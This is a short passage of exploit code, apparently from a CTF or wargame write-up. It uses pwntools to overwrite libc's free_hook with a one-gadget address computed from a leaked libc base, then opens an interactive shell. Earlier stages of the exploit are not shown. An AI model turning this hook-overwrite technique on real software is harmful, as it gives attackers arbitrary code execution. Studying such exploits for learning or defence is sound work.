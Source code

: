 ```
og = libc_base+0x4f432
# og = libc_base+0x4f3d5
# og = libc_base+0x10a41c

# [2] Overwrite `free_hook` with `og`, one-gadget address
p.sendline(str(free_hook).encode())
p.sendline(str(og).encode())
p.sendline(str(0x31337).encode()) # 0x31337은 그냥 밈 값임

p.interactive()
```
